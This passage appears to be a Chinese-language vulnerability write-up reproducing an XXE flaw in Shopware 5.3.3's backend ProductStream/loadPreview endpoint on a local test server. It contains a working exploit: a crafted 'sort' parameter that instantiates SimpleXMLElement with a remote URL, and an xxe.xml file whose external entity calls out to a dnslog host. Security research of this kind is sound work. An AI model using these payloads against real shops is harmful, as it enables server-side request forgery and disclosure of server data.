 ```http
GET /shopware-5.3.3/backend/ProductStream/loadPreview?_dc=1680685398583&sort=%7B%22Shopware%5C%5CBundle%5C%5CSearchBundle%5C%5CSorting%5C%5CPriceSorting%22%3A%7B%22direction%22%3A%22ASC%22%7D%7D&conditions=%7B%7D&shopId=1&currencyId=1&customerGroupKey=EK&page=1&start=0&limit=25 HTTP/1.1
Host: 127.0.0.1:8081
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
X-Requested-With: XMLHttpRequest
X-CSRF-Token: XBmdfQ0FkYcuPHuuz2K6q6ctVJH9Cm
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8081/shopware-5.3.3/backend/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SHOPWAREBACKEND=qkst9194krstcn7cb6qbeoghd1; lastCheckSubscriptionDate=05042023
Connection: close
```

我们可以看到 **sort** 值为 `{"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}` ,于是我们按照其格式构造payload： `{"SimpleXMLElement":{"data":"http://127.0.0.1:8081/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}` ，关于payload的含义，可以看看 **SimpleXMLElement** 类的 **__construct** 函数定义，具体点 [这里](http://php.net/manual/zh/simplexmlelement.construct.php) 

```php
final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
```

笔者所用的xxe.xml内容如下（dnslog外带测试）：

```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://zf1yolo.9vqlm1.dnslog.cn">
    %file;
]>
```

<img src=".\图片\Snipaste_2023-04-05_17-25-03.png" alt="Snipaste_2023-04-05_17-25-03" style="zoom:67%;" />
